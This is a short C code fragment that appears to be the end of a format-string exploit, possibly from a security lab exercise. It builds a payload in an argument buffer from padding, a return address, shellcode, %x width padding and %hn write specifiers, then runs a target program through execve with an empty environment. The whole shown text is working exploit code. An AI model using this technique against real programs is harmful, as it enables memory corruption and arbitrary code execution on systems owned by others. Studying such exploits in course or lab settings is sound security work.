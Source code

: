 ```c
  strcat(args[1], "JUNK");
  strcat(args[1], ret_location2);
  strcat(args[1], shellcode);
  strcat(args[1], "%64617x%x%x");
  strcat(args[1], "%hn");
  strcat(args[1], "%50011x");
  strcat(args[1], "%hn");
  strcat(args[1], "\0");

  args[2] = NULL;
  env[0] = NULL;

  if (0 > execve(TARGET, args, env))
    fprintf(stderr, "execve failed.\n");

  free(args[1]);

  return 0;
}
```
